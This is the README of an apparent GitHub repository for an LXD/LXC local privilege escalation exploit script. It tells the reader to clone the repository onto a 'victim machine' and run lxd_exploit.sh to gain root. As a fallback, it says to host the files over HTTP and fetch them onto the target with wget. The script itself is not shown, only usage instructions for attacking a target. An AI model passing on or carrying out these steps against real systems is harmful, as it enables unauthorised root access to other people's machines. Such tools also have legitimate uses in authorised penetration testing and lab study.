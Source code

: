 # LXD/LXC Local Privilege Escalation

This script allows to vertically escalate privilege on linux machines with current user in [lxd/lxc](https://linuxcontainers.org/lxd/) group.

## Usage

On victim machine clone the repository:
```
git clone https://github.com/lykan89/LXD-privilege-escalation.git
```

Running the exploit:
```
cd LXD-privilege-escalation
chmod +x lxd_exploit.sh
./lxd_exploit.sh
```

## Note:
> If the `git clone` doesn't work on victim machine, Clone the repository on the local machine and host the folder via HTTP and `wget` it.

## License
This script uses MIT License
